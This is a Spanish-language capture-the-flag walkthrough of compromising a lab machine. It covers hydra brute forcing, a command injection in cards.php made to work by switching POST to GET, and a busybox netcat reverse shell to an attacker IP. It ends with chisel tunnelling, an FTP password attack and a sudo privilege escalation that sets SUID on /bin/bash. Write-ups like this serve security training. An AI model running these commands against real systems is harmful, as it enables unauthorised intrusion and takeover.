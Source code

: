 Hacemos el escaneo de nmap:
![[Pasted image 20240511225047.png]]
Y esto corre por el puerto 80:
![[Pasted image 20240511225119.png]]
Hay un icono de una persona donde al hacerle clic saltará un popup:
![[Pasted image 20240511225156.png]]
En este punto podemos hacer fuerza bruta con el parámetro -C de hydra. De tal forma que podremos probar una lista de credenciales en un archivo de texto para probar múltiples combinaciones de nombres de usuario y contraseñas al mismo tiempo:
![[Pasted image 20240512110203.png]]
```hydra
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -s 80 -f 192.168.0.25 http-get /cards.php
```
Y nos encuentra las credenciales:
![[Pasted image 20240512110226.png]]
Nos la encuentra porque este diccionario es de combinaciones de contraseñas:
![[Pasted image 20240512110253.png]]
Una vez dentro, tenemos el siguiente panel:
![[Pasted image 20240512110324.png]]
Si intentamos colar un comando, vemos que no nos deja:
![[Pasted image 20240512110541.png]]
Podemos mirar el código fuente y vemos que se tramita por POST, de tal forma que la securización funciona por POST, pero quizá si lo cambiamos a GET, podremos bypassear las restricciones:
![[Pasted image 20240512110753.png]]
Vemos que se usa el id filename por POST, pero nosotros con curl podemos llegar a este punto:
```bash
curl -s -X POST "http://192.168.0.25/cards.php?" -d "filename=hola;whoami" --user 'admin:admin12345' | html2text
```
![[Pasted image 20240512111143.png]]
Pero si lo cambiamos a GET, vemos que funciona:
```bash
curl -s -X GET "http://192.168.0.25/cards.php?filename=hola;whoami" --user 'admin:admin12345' | html2text
```
![[Pasted image 20240512111333.png]]
Ahora nos entablamos una reverse shell con la de busybox:
```bash
curl -s -X POST "http://192.168.0.25/cards.php?filename=hola;busybox+nc+192.168.0.20+443+-e+bash" --user 'admin:admin12345' | html2text
```
![[Pasted image 20240512112848.png]]
No obstante, este mismo RCE también podemos conseguirlo con burp suite:
![[Pasted image 20240517120404.png]]
Dentro de /var/www podemos leer el siguiente archivo llamado ftppolicy.txt:
![[Pasted image 20240517105848.png]]
Y ejecutando el comando ss -tuln vemos que el puerto 21 está a la escucha de forma interna:
![[Pasted image 20240517110052.png]]
Nos traemos este puerto con chisel para atacarlo:
```bash
./chisel server --reverse -p 1234
./chisel client 192.168.0.20:1234 R:21
```
![[Pasted image 20240517110607.png]]
Ahora con hydra hacemos el ataque y funciona:
```bash
hydra -l i.cassini -P irene.txt ftp://127.0.0.1
```
![[Pasted image 20240517110723.png]]
Nos autenticamos con esta contraseña:
```bash
i.cassini:1r3n3!$%
```
![[Pasted image 20240517110802.png]]
Ahora, para escalar privilegios, nos encontramos con el binario acr:
![[Pasted image 20240517110827.png]]
Si lo utilizamos, vemos que nos pide pasar un archivo:
![[Pasted image 20240517110916.png]]
Y usando el parámetro --help vemos la ayuda:
![[Pasted image 20240517111049.png]]
Utilizando el siguiente comando podemos leer la flag de root:
```bash
sudo /usr/bin/acr -d /root/root.txt
```
![[Pasted image 20240517111245.png]]
Para escalar privilegios, usaremos también este binario para incrustar un comando malicioso:
```bash
touch Makefile && chmod +x Makefile
echo "chmod 4777 /bin/bash" > Makefile
sudo /usr/bin/acr -r Makefile
bash -p
```
![[Pasted image 20240517111405.png]]
